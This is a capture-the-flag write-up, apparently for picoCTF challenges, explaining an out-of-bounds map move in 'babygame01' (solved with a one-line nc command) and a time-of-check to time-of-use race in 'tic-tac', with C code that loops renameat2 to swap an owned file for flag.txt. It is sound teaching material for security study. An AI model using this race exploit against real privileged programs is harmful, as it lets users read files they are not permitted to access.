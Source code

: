 ## babygame01

By playing around in the binary I noticed that if we move to the left beyond the bounds in the top left of the map, the `Player has flag` variable turns into `64`. And also from opening the binary in ghidra I saw that `p` will instantly win the game without having to move to the end. From there all we have to do is move to the position that gives us the flag then press `p` to end the game with the flag.

Command to solve challenge:

```bash
echo "wwwwaaaaaaaap" | nc saturn.picoctf.net 49781
```

![Getting babygame01 flag](img/babygame01flag.png)

## tic-tac

By the tags we are given a hint that this is a toctou (Time-of-check to time-of-use) attack, which is a race condition where the file at the time of check is different at the time of use. As we can see from the source code:

```c
// Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  }
```

It first uses the file path to check the files permissions, then it uses it again to read the contents of the file. So we want to give it a file that is owned by our user to pass the first check then switch out the file to `flag.txt` at the time it want to read the contents. We can do that with the the `renameat2` syscall.

Here is the c code to do that:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```
